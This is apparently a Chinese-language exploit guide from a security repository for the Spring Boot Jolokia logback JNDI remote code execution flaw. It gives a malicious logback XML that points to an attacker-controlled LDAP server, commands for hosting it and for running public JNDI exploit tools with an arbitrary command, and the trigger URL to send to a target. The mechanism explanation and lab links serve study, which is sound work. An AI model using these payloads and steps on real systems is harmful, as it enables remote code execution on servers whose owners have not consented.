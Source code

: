 # jolokia logback JNDI RCE

## 利用条件：
- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

## 利用方法：
#### 访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。
![](./img/jolokia:list.png)
#### 托管example.xml文件
example.xml:  
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```
```shell
# 在xml文件目录开启http服务
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
#### 架设恶意ldap服务
工具：[JNDIExploit-1.4-SNAPSHOT.jar](./file/JNDIExploit.v1.4.zip)
工具项目地址：https://github.com/WhiteHSBG/JNDIExploit
```bash
java -jar -jar JNDIExploit.jar -i VPS地址
```
工具：[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](./file/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) 
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行命令" -A VPS地址 
```
### 发送payload
替换实际的VPS地址,访问URL触发漏洞：
`http://x.x.x.x/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/vps地址!/example.xml`
> ⚠️ 如果目标成功请求了example.xml并且JNDI也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

## 漏洞原理：
1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

## 漏洞分析：
[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

## 漏洞环境：
[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)